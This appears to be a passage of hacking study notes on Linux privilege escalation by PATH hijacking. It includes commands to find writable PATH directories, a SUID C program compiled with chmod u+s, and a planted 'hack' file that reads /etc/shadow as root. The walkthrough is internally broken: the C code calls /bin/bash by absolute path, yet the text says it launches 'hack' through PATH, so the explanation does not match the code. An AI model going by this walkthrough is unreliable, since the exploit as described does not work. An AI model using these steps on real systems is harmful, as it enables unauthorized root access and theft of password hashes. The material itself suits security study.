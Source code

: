 Whenever we are looking for a way to escalate using this technique there are some things that we need to keep in mind, as it always depends entirely on the existing configuration of the target system:
- What folders are located under $PATH?
- Does our user have write privileges for any of these folders?
- Can we modify $PATH?
- Is there a script/app that we can start that will be affected by this vulnerability?

To check permissions of all the PATH directories all at once
```sh
echo $PATH | tr ':' '\n' | while read i; do ls -ld $i; done
```
We could also check for writable folders overall with
```sh
find / -writable 2>/dev/null | cut -d '/' -f 2,3 | grep -v proc | sort -u
```

Now if non of them match, and we do not have write permissions to one of the already existing directories in PATH, then we can hopefully add a directory to which we have permissions to PATH, doing so like:
```sh
export PATH=/tmp:$PATH
```
Normally `/tmp` would be easiest as we more often than not will have permissions. We do this by using the `export` command which can set environment variables like `PATH`. So we just append the new directory to the already existing one.
At this point we can try to use and already existing script/application. In this case suppose that we found one that tries to launch a system binary for example (escalation.c):
```C
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("/bin/bash");
}
```
This script will set itself as root and then try to run a binary called `hack`. As the path is not provided it will also look for it inside the folders listed under path. If we wanted to procede with this C example then we would have to compile it into and executable and set the SUID bit
```sh
gcc escalation.c -o escalate -w
chmod u+s escalate
```
Now we can create a file named `hack` that will have whichever command we want for it to run as root, and execute it through our `escalate` script.
```sh
echo "cat /etc/shadow" > hack
./escalate
```
Here we create it so it can show `/etc/shadow`, but we could also give it a payload to get a shell like `/bin/bash` or something else.

## NFS
Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help us gain root access on the target system. Finding a root ssh private key on the target system and connecting via SSH is a way to obtain root instead of trying to increase our current user's privilege level.
